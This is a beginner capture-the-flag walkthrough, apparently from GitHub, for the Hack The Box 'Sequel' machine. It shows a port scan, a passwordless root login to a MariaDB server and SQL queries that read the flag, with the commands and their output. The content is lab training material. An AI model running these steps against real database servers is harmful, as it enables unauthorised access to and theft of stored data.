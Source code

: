 
## 🧩 HTB Starting Point: Sequel  
**Level**: Very Easy  
**Date**: July 30, 2025  
**Goal**: Exploit a misconfigured MariaDB server with root access to retrieve the flag.

---

### 🧰 Tools  
- `nmap`  
- `mysql` client  

---

### 🧭 Steps  

1. 🔎 **Scan the machine** using a fast port scan:
   ```bash
   nmap -F 10.129.X.X
   ```

---

2. 🔐 **Login as root to MySQL** without a password:
   ```bash
   mysql -u root -h 10.129.X.X --skip-ssl
   ```

---

✅ You’re now inside MariaDB as the root user.

---

3. 📚 **Check available databases**:
   ```bash
   SHOW DATABASES;
   ```

---

### Output
```bash
information_schema  
htb  
```

---

4. 📂 **Select the target database**:
   ```bash
   USE htb;
   ```

---

5. 📑 **List the tables**:
   ```bash
   SHOW TABLES;
   ```

---

### Output
```bash
config  
users  
```

---

6. 🏁 **Extract the flag from the config table**:
   ```bash
   SELECT * FROM config;
   ```

---

### Output
```bash
+----+--------------------------+  
| id | value                    |  
+----+--------------------------+  
| 6  | {example_flag_value} |  
+----+--------------------------+  
```

---

✅ Copy the flag and submit it!

---

### 💣 Payloads Used  
```bash
nmap -F 10.129.X.X  
mysql -u root -h 10.129.X.X --skip-ssl  
SHOW DATABASES;  
USE htb;  
SHOW TABLES;  
SELECT * FROM config;
```
